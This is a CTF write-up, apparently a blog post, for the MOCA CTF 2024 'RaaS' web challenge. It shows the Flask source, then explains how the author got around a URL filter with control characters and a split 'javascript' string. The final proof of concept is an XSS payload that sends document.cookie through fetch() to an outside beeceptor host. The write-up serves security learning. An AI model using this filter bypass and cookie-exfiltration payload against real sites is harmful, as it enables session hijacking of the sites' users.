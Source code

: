 ```yaml
---
layout: post
title: RaaS [WEB] writeup - MOCA CTF 2024 Quals 
author: simonedimaria
category: writeups
chall-category: web
tags: web xss flask
---
```



# RaaS \[WEB\] - MOCA CTF 2024 Quals

![](/assets/images/mocactf2024quals/MocaCTF_logo.png)

# TL;DR

- The challenge involved achieving DOM XSS inside a Flask template through the `javascript:` pseudo protocol. This was accomplished bypassing a filtering regex and blacklisted characters.

# 0. Description

> A simple click-to-xss to warmup.

---
## 1. Challenge scenario

We're given a form in which it is possible to insert a link, a title, and be redirected to that URL. There is also the possibility of sending this link to the admin who will in turn be redirected.

![](/assets/images/mocactf2024quals/RaaS_firstlook.png)

Source code is provided, so we'll look into that to understand what's happening.

## 1.1) Source code analysis

The project is divided into two parts: the main application and the admin bot. We'll look into the application code first.

**app.py**
```python
from flask import Flask, request, render_template, Response, redirect,jsonify, make_response, g, redirect, send_file
import requests
import urllib.parse
import re

app = Flask(__name__)

@app.route('/', methods=['GET'])
def main_page():
    return render_template('home.html')

def check_url(url):
    url = url.lower()
    pattern = r'[()=$`]'
    if bool(re.search(pattern, url, re.IGNORECASE | re.DOTALL)):
        return False
    if url.startswith("j") or "javascript" in url:
        return False
    return True

def check_title(title):
    if "<" in title or ">" in title:
        return False
    return True

@app.route('/redirectTo', methods=['GET'])
def redirect_to():

    url = request.args.get("url")
    title = request.args.get("title")
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"

    if not isinstance(title,str) or not isinstance(url,str):
        return render_template('redirect.html',url=default_url, title="title")
    url = url.strip()

    if not check_url(url) or not check_title(title):
        return render_template("redirect.html", title=title, url=default_url)
    return render_template('redirect.html',url=url, title=title)

@app.route('/redirectAdmin', methods=['GET'])
def redirect_admin():
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"
    admin_bot = "http://raas-admin:3000/report_to_admin"
    url = request.args.get("url")
    title = request.args.get("title")
    
    if not isinstance(title,str) or not isinstance(url,str):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    url = url.strip()
    if not check_url(url) or not check_title(title):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    requests.post(admin_bot, json={"url":url, "title":title})
    return jsonify({"message":"done"}), 201


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```


Clicking on the "*Get Redirected!*" button will trigger the `/redirectTo` route, which is anyway triggered also by the "*Redirect the Admin!*" button that executes the `/redirectAdmin` route.
The first endpoint accepts the `url` and `title` parameters which must be strings and later passed to the `check_url()` and `check_title()` sanitizing functions. If we can bypass that with a working payload, we'll have XSS. 
The second endpoint forwards the given URL to the admin bot, which simply goes to the `/redirectTo` endpoint with our inputs, and simulates a button click on the "*Follow Link*" button.

![](/assets/images/mocactf2024quals/Raas_redirectTo.png)

The `check_url` function aims to sanitize the URL input by converting it to lowercase, hence avoiding all the lowercase-uppercase payloads like `jAvAsCriPt:aLeRt(1)`. It also check for the presence of some special characters with the regex ```r'[()=$`]'``` that will limit us later on exploitation.
Particularly, it ensures the URL does not start with "j" character or contain the substring "javascript". This comes out as the main limitation for us, since it should block the payloads with the javascript pseudo protocol.

At this point, a simple way out will be any other working pseudo protocol XSS payload like `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4`. However, if we try so, the browser will insult us with:

![](/assets/images/mocactf2024quals/Raas_browserblock.png)
My approach at this point was to split the checks individually in the source code an try to bypass them one by one.

# 2. Exploitation

Below I will explain how I bypassed each of them, doing it with a bottom-up approach cause I found it more convenient.
## 2.1) "javascript" not allowed bypass

We're not allowed to use the string "javascript" anywhere in our URL, so...just don't use it!
We will write
```
java
script
```
instead.
Here we are using a **newline character** to bypass the check. Since in the Python side `"java\x0Ascript" != "javascript"`, but in the broswer `java%0Ascript` will still be considered a valid url for the `javascript` protocol.

> NOTE
> Our input get stripped before getting into che sanitizing function, however Python [strip()](https://docs.python.org/3.11/library/stdtypes.html#str.strip) function only removes **leading and trailing characters**.

Even though this is a common bypass, I never actually knew why this was working. Researching for bypasses for the javascript pseudo protocol I've found [this blog](https://aszx87410.github.io/beyond-xss/en/ch1/javascript-protocol/) which was helpful to me to find out the reason why whitespaces are allowed in this situation and find out the bypass for the next filter.
The reason seems to rely in the [URL spec standard](https://url.spec.whatwg.org/) which removes any ASCII tab or newline from inputs.

## 2.2) doesn't starts with "j" bypass

This one was tougher.
the strip function that was allowing me to bypass the previous check was sending me crazy on this one.
Majority of payloads broke the `javascript` protocol: even if they bypassed the checks, they would just get included as part of the web application URL (e.g `url=/java%0Ascript:payload`).
Another example is what I initially thought to be a NULL byte bypass, which caused instead a strange behaviour:

![](/assets/images/mocactf2024quals/Raas_NULLbyteinurl.png)

As you can see, it bypassed the python checks but in the button preview (left corner) it was mutated in some non printable character, invalidating it as protocol.
However, i felt in being in the right path, until the previous blog confirmed my sensations.

![](/assets/images/mocactf2024quals/RaaS_controlcharsinURL.png)

Control Characters are allowed?? It did, in fact.
Using the **BACKSPACE** (`%08`) character allowed me to bypass the python filter and still getting a valid url for the javascript protocol!
And any of the [ASCII Control Characters](https://en.wikipedia.org/wiki/Control_character) below would have probably get the job done.

![](/assets/images/mocactf2024quals/Raas_ASCIIcontrolchars.png)

## 2.3) regex bypass

This was probably the easiest check to bypass, since javascript is very permissive in expressions that can be created even with a few symbols, it is no coincidence that there are many esoteric languages ​​on javascript such as [JSFuck](https://jsfuck.com/) that manage to create valid expressions using only a few symbols.

> Fun Fact
> [here](http://aem1k.com/aurebesh.js/) I've found some of the funniest javascript esoteric shit expression while doing this challenge, like...how the fuck i can popup alert with fucking Egyptian hieroglyphs, but a simple NULL byte will break the shit out of the payload??

However, searching brainlessly "XSS payloads without parentheses" was enough since i found many working payloads inside [this repo](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md).
I was also able to double encode inside the payload after the `javascript:` since javascript was decoding it.

## 2.4) PoC

```javascript
%08java%0Ascript%3Afetch%2528'http://eeeee.free.beeceptor.com/'%2Bdocument.cookie%2529
// javascript:fetch('http://eeeee.free.beeceptor.com/'+document.cookie)
```

![](/assets/images/mocactf2024quals/RaaS_finalpayload.png)

> `PWNX{WH0_D035'N7_l0V3_4_g00D_0l'_W4F?}`

---
### TAGS: #XSS #flask